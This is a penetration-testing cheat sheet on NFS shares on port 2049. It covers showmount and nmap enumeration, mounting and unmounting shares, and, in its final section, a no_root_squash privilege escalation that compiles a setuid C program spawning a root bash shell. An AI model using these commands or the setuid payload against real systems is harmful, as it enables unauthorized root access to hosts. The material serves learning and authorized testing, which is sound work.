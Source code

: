 
## NFS - 2049

| **Command**                                                                                             | **Description**                                  |
| ------------------------------------------------------------------------------------------------------- | ------------------------------------------------ |
| `showmount -e <FQDN/IP>`                                                                                | Show available NFS shares.                       |
| `mount -t nfs <FQDN/IP>:/<share> ./target-NFS/ -o nolock`                                               | Mount the specific NFS share.umount ./target-NFS |
| `umount ./target-NFS`                                                                                   | Unmount the specific NFS share.                  |
| `sudo nmap --script nfs* 10.129.14.128 -sV -p111,2049`                                                  | Nmap nsf scan                                    |
|                                                                                                         |                                                  |
| `mkdir target-NFS` `sudo mount -t nfs 10.129.14.128:/ ./target-NFS/ -o nolock` `cd target-NFS` `tree .` | Mounting NFS share                               |
| `ls -l mnt/nfs/`                                                                                        | List Contents with Usernames & Group Names       |
| `ls -n mnt/nfs/`                                                                                        | List Contents with UIDs & GUIDs                  |
| `cd ..` `sudo umount ./target-NFS`                                                                      | Unmounting                                       |

### Show Mountable NFS Shares

```
showmount -e <IP>
nmap --script=nfs-showmount -oN mountable_shares <IP>
```

### Mount a share

```
sudo mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
sudo mount -v -t nfs -o vers=2 <IP>:<SHARE> <DIRECTORY>
```

### NFS misconfigurations

```
# List exported shares
cat /etc/exports
```

If you find some directory that is configured as no_root_squash/no_all_squash you may be able to privesc.

```
# Attacker, as root user

mkdir <DIRECTORY>
mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
cd <DIRECTORY>
echo 'int main(void){setreuid(0,0); system("/bin/bash"); return 0;}' > pwn.c
gcc pwn.c -o pwn
chmod +s pwn

# Victim

cd <SHARE>
./pwn # Root shell
```

---